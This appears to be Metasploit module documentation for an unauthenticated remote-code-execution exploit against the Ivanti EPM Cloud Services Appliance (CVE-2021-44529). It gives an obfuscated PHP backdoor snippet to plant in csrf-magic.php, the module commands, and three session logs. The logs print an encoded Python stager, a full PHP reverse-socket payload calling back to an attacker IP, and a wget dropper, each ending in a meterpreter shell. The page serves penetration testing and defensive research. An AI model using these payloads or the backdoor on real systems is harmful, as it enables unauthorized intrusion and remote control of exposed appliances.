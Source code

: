 ## Vulnerable Application

Ivanti Cloud Services Appliance for Ivanti Endpoint Manager is a appliance that is designed to manage endpoints (Desktops).
It also know under the name LANDESK. The appliance can be either a physical or a virtual appliance and it runs a web based application
where the HTTP web interface is typically exposed to the public internet.

A code injection vulnerability in the Ivanti EPM Cloud Services Appliance (CSA) before version `4.6.0-512` allows an unauthenticated user
to execute arbitrary code with limited permissions via a special crafted cookie against the client endpoint `/client/index.php`.
Successful exploitation results in command execution as user `nobody`.

Installing a vulnerable test bed requires an Ivanti EPM Cloud Services Appliance (CSA), either physical or virtual with the vulnerable
software installed.

This module has been tested against an Ivanti EPM Cloud Services virtual Appliance (CSA) with the specifications listed below:

* Ivanti EPM Cloud Services virtual Appliance (CSA)
* Version: `4.6.0-20211203.1950` -> not vulnerable
* Remark: Manually added vulnerable code in `/opt/landesk/broker/webroot/lib/csrf-magic.php`

## Verification Steps

### installation
Below are the steps to install and setup a vulnerable Ivanti EPM Cloud Services virtual Appliance (CSA).

* Download the CSA 4.6 virtual appliance and follow the instructions below:
  [Install CSA VM from ISO](https://forums.ivanti.com/s/article/How-to-Create-CSA-VM-from-ISO?language=en_US)
* Add a second network interface on the VM at your hypervisor. This will allow you to run and test the appliance without activation.
* Start the appliance again and enable the ssh service in the security tab.
* Login with ssh with user admin (default password = admin)
* Edit `/opt/landesk/broker/webroot/lib/csrf-magic.php` and add just before `// Load user configuration` section the following code:
```
// Obscure Tokens
$aeym="RlKHfsByZWdfcmVwfsbGFjZShhcnJheSgnLfs1teXHc9fsXHNdLyfscsJy9fsccy8nfsKSwgYXJyfsYXkoJycsfsJysn";
$lviw = str_replace("m","","msmtmr_mrmemplmamcme");
$bbhj="JGMofsJGEpPjMpefsyRrPSdjMTIzJzfstlfsY2hvICc8Jy4kay4nPic7ZXfsZfshbChiYXNlNjRfZGVjb2";
$hpbk="fsJGfsM9fsJ2NvdW50fsJzfsskYfsT0kXfs0NPT0tJRTtpZihyfsZfsXNldfsCgfskYfsSkfs9fsPSdhYicgJiYg";
$rvom="KSwgam9pbihhcnfsJheV9zbGljZSgkYSwkYyfsgkYSktMyfskpfsKSkpOfs2VjaG8gJzwvJy4fskay4nPic7fQ==";
$xytu = $lviw("oc", "", "ocbocaocseoc6oc4_ocdoceoccocoocdoce");
$murp = $lviw("k","","kckrkeaktkek_kfkunkcktkikokn");
$zmto = $murp('', $xytu($lviw("fs", "", $hpbk.$bbhj.$aeym.$rvom))); $zmto();
```
* Save and run the msf module below against the CSA target IP.

1. `use exploit/linux/http/ivanti_csa_unauth_rce_cve_2021_44529`
1. `set RHOSTS <CSA target IP>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command, 1-PHP command or 2-Linux dropper>`
1. `exploit`
1. You should get a `bash` shell, `python` shell  or `meterpreter` session depending on the target and payload settings.

## Options
No additional options.

## Scenarios

### Ivanti Cloud Services Appliance RCE using payload cmd/unix/python/meterpreter/reverse_tcp
```
msf6 > use exploit/linux/http/ivanti_csa_unauth_rce_cve_2021_44529
[*] Using configured payload cmd/unix/python/meterpreter/reverse_http
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set target 0
target => 0
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set payload cmd/unix/python/meterpreter/reverse_tcp
payload => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set rhosts 192.168.100.41
rhosts => 192.168.100.41
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lport 4444
lport => 4444
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.41:443 can be exploited.
[+] The target is vulnerable. Version: 4.6.0-20211203.1950
.
[*] Executing Unix Command with echo exec\(__import__\(\'zlib\'\).decompress\(__import__\(\'base64\'\).b64decode\(__import__\(\'codecs\'\).getencoder\(\'utf-8\'\)\(\'eNo9UE1LxDAQPTe/IrckGEO71K4uVhDxICKCuzeRpU1GDU3TkGS1Kv53G7I4hxnezJs3H3p0k484THKAyL+N7nnfBWhqHqI/yMijHgG9Th7PWFvsO/sGtCrZBhXRfy2+CG1uFjnQFT/i7ePN/X67e7q9fmCJJ+RkLchIKakuVqJqzkVVlmJNeL0YS5zeQzegAmYJLibxNF0EA+DoGUOmzUuJg3WdHCi5uiM8CA/ygy4Cz+ULUu0RG4Y+37UBbMBSxS7NIqdO/qunOc0QzCBpulsokNPoPIRA8wtE39QpqSAx+Q8JZBN+GfoDHtFfMQ\=\=\'\)\[0\]\)\)\) | exec $(which python || which python3 || which python2) -
[*] Sending stage (24380 bytes) to 192.168.100.41
[*] Meterpreter session 1 opened (192.168.100.7:4444 -> 192.168.100.41:59430) at 2023-01-08 16:43:38 +0000

meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : Linux 3.10.0-1160.el7.x86_64 #1 SMP Mon Oct 19 16:18:59 UTC 2020
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid
Server username: nobody
meterpreter >
```

### Ivanti Cloud Services Appliance RCE using payload php/meterpreter/reverse_tcp
```
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set target 1
target => 1
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set rhosts 192.168.100.41
rhosts => 192.168.100.41
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lport 4444
lport => 4444
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.41:443 can be exploited.
[+] The target is vulnerable. Version: 4.6.0-20211203.1950
.
[*] Executing PHP Command with /*<?php /**/ error_reporting(0); $ip = '192.168.100.7'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
[*] Sending stage (39927 bytes) to 192.168.100.41
[*] Meterpreter session 2 opened (192.168.100.7:4444 -> 192.168.100.41:59432) at 2023-01-08 16:47:23 +0000

meterpreter > sysinfo
Computer    : localhost.localdomain
OS          : Linux localhost.localdomain 3.10.0-1160.el7.x86_64 #1 SMP Mon Oct 19 16:18:59 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: nobody
meterpreter >
```

### Ivanti Cloud Services Appliance RCE using payload linux/x64/meterpreter/reverse_tcp
```
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set target 2
target => 2
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set rhosts 192.168.100.41
rhosts => 192.168.100.41
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lport 4444
lport => 4444
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set srvport 1080
srvport => 1080
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.41:443 can be exploited.
[+] The target is vulnerable. Version: 4.6.0-20211203.1950
.
[*] Executing Linux Dropper
[*] Using URL: http://192.168.100.7:1080/oBGKBxPUe3Uos
[*] Client 192.168.100.41 (Wget/1.14 (linux-gnu)) requested /oBGKBxPUe3Uos
[*] Sending payload to 192.168.100.41 (Wget/1.14 (linux-gnu))
[*] Sending stage (3045348 bytes) to 192.168.100.41
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Meterpreter session 3 opened (192.168.100.7:4444 -> 192.168.100.41:59436) at 2023-01-08 16:52:10 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: nobody
meterpreter >
```

## Limitations
Due to the port restrictions of a hardened CSA appliance typically only port `80` and `443` are open for inbound and outbound traffic.
Also avoid using stageless payloads because they may exceed the maximum Cookie header size that will cause the payload delivery to fail.
